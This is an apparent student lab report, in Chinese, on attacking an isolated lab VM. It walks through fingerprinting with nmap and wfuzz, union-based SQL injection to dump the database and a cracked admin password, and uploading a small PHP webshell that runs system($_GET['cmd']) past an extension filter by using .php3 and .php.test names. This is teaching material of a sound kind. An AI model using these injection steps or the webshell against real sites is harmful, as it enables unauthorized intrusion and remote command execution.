

# sql注入 实验报告

## 网络拓扑

网卡选择：host-only

| 角色 | ip地址|
|----|----|
| attacker | 192.168.56.101/24 |
| sql注入victim | 192.168.56.102/24 |

## 前言（原理简介）

sql注入可以实现的根本原因，就是因为**用户输入被直接插到了要执行的数据库代码中**（1）。

所以，比如，如果发现用户输入的表达式被计算了、用户输入的注释符让其它判断条件被忽略了等等，证明了（1），就意味着注入点可能存在。

是否会有错误信息返回取决于配置，如果有那就更方便注入，没有也可以**盲注**，比如通过页面返回的时间侧面推断出输入的语句是否正确执行了。

一旦通过各种方式找到了注入点，再利用它获得管理员权限，就可以<del>为所欲为了！</del>上传构建的webshell（网页后门）等等。

## FingerPrinting

#### 先用nmap扫一下端口开放情况：


#### 从上图可见80端口开启了http服务。通过telnet对目标服务器发送HTTP请求，返回的HTTP头中就可以看到php和服务器版本等信息


#### index页面上有一些可以直接点击的页面跳转


#### 除此之外，还可以使用wfuzz工具来寻找是否有更多的可访问地址

* **在kali中wfuzz是可以直接使用的，注意先 `cd /usr/share/wfuzz` 切换目录，否则无法找到用于暴力尝试的txt**

```
wfuzz -c -z file,wordlist/general/big.txt --hc 404 http://192.168.56.102/FUZZ
```


* **换用common.txt**

```
wfuzz -c -z file,wordlist/general/common.txt --hc 404 http://192.168.56.102/FUZZ
```


## 猜解列数 & 获取信息 & 破解管理员密码

* **主要借助 ORDER BY 和 UNION 来猜出返回多少列**

#### 观察下面三个页面的地址和结果







#### 判断图片是服务器端后台数据库根据用户输入的id返回的。所以，脑补数据库查询语句的前半部分，接下来每一个输入都想象是放在这一句的后面：

```
SELECT * FROM articles WHERE id=
```

#### 随便尝试一个错误输入，这一次得到了使用的数据库为mysql：



#### 从下图可以看出用户输入的3-1被计算为2了，这是一个令人振奋的征兆：





#### `and 1=1` 和 `and 1=0` 导致返回结果不同也同样是对sql注入而言“积极”的标志



#### 在猜解列数时可以使用 `UNION SELECT 1,2,3...` 不断尝试，因为 UNION 前后两条 SELECT 语句必须返回相同数目的值，否则就会报错





#### `SELECT 1,2,3,4` 时返回结果正常，所以返回的列数为4。在猜解列数时还可以通过 `ORDER BY x`（根据第x列进行排序），如果x不存在，即超过了正确列数，则会报错







#### x=5时就报错了，小于5时正常，同样可以说明x=4。知道了正确的列数之后，继续使用 UNION 从数据库中获取信息，FROM 也可以帮上大忙。可获取的信息有很多：

- 比如版本：



- 比如当前连接数据库的用户名：



- 比如所有表的名字：



- 以及每个表里有哪些列名：



- 再比如，**管理员的密码！**



#### 这是经过hash之后的值。最后通过MD5在线解密得到明文密码：**P4ssw0rd**

#### 确认一下密码正确


#### 成功登录管理员账号


## 上传webshell

#### 构建简单的php代码，作为webshell
```
<?php 
echo 'hello world!'
system($_GET['cmd']); 
?>
```

#### 将其保存为webshell.php，上传文件失败


#### 保存为webshell.php3，利用目标Apache服务器配置缺陷绕过扩展名限制并可以正常执行。`cmd=` 后可以输入命令


#### 在这里还可以将webshell的扩展名重命名为 .php.test ，同样可以完成上传绕过。这是利用目标网站的[Apache服务器的解析漏洞](http://sec.cuc.edu.cn/huangwei/textbook/ns/chap0x07/main.html#7612-%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C)。此处想起实验吧上一道有异曲同工之妙的ctf题目[上传绕过](http://www.shiyanbar.com/ctf/1781)，将文件扩展名设置为 .php.jpg 逃脱对 .php 的限制。


